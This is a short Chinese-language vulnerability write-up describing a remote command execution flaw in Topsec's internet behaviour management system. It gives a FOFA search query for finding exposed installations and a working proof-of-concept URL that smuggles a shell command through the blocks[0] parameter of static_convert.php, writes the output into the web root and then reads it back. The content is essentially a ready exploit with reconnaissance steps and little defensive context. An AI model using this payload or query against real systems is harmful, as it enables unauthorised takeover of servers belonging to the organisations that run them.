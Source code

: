 # 天融信上网行为管理远程命令执行漏洞

# 一、漏洞简介
天融信上网行为管理系统是天融信公司凭借多年来的安全产品研发经验，为满足各行各业进行网络行为管理和内容审计的专业产品。天融信上网行为管理系统存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权。

# 二、影响版本
+ fofa`app="天融信-上网行为管理系统"`
+ 登录页面

![1693205859079-207fa54f-ee37-4331-9621-44209c2001e0.png](./img/7241cfwepr_fRCyL/1693205859079-207fa54f-ee37-4331-9621-44209c2001e0-772323.png)

# 四、漏洞复现
1. 通过POC执行命令并将命令执行结果写入1.txt文件中

```plain
http://xx.xx.xx.xx/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20%20ls%20%3E%3E%20/var/www/html/1.txt%0A
```

![1693205959764-7d9f0d26-704b-4bdb-80be-d84a7d3ad7d3.png](./img/7241cfwepr_fRCyL/1693205959764-7d9f0d26-704b-4bdb-80be-d84a7d3ad7d3-832854.png)

2. 访问1.txt获取命令执行结果

```plain
http://xx.xx.xx.xx/1.txt
```

![1693205998150-b9502394-9f4a-469f-bcff-8ee18f5d597e.png](./img/7241cfwepr_fRCyL/1693205998150-b9502394-9f4a-469f-bcff-8ee18f5d597e-775050.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/itebo7lea2zxwow8>